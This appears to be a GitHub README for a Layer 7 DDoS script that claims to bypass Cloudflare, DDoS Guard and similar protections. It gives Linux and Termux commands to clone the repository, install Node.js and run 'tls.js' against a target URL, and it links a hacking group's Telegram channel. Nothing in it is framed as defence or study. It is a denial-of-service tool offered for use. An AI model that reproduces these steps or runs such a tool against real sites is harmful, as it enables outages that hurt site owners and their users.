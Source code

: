 # dos
DDoS Script (DDoS Panel) with Multiple Bypass ( Cloudflare UAM,CAPTCHA,BFM,NOSEC / DDoS Guard / Google Shield / V Shield / Amazon / etc.. )

# DDOS LAYER7

LAYER7 BAYPASS CloudFlare js


Requirements
------------

    Git
    Node.Js


Usage LINUX OR UNBUTU
-----

    $ git clone https://github.com/Ro0TN3T/dosv2
    $ cd dosv2
    $ apt install nodejs -y
    $ unzip node_modules.zip
    $ node tls.js https://target.com 60 1



   
Usage TERMUX
-----

    $ git clone https://github.com/Ro0TN3T/dosv2
    $ cd dosv2
    $ pkg install nodejs -y
    $ unzip node_modules.zip
    $ node tls.js https://target.com 60 1


Updating
--------

    # tls.js
    # cf.js BAYPASS CloudFlare
    


Contact
-------

Telegram Group : [Aceh Cyber Team]


[ACT]: https://t.me/AcehCyberTeam/
